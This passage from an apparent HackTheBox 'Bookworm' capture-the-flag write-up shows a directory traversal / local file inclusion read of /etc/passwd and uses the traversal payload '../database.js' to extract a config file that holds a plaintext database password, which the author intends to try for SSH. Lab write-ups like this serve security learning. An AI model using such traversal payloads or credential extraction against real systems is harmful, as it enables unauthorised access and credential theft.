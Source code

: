 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
frank:x:1001:1001:,,,:/home/frank:/bin/bash
neil:x:1002:1002:,,,:/home/neil:/bin/bash
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
james:x:1000:1000:,,,:/home/james:/bin/bash
                                              
``` 

That vulnerable lfi and directory traversal . Look at /home directory there have 3 username is `james` , `neil` and `frank`

## Enumerate File System

The website is used Express , Express usually  used this name files and mostly them used this name files is 
- index.js
- package.json
- app.js
- database.js

I thinking `database.js` have the password for ssh let's we get it . Our just using same payload at the above our just change the name file `../../../etc/passwd` to `../database.js` 

```
┌──(root㉿kali)-[/home/…/Desktop/htb/bookworm/upload]
└─# strings Unknown.pdf             
const { Sequelize, Model, DataTypes } = require("sequelize");
//const sequelize = new Sequelize("sqlite::memory::");
const sequelize = new Sequelize(
  process.env.NODE_ENV === "production"
    ? {
        dialect: "mariadb",
        dialectOptions: {
          host: "127.0.0.1",
          user: "bookworm",
          database: "bookworm",
          password: "FrankTh3JobGiver",
        },
```
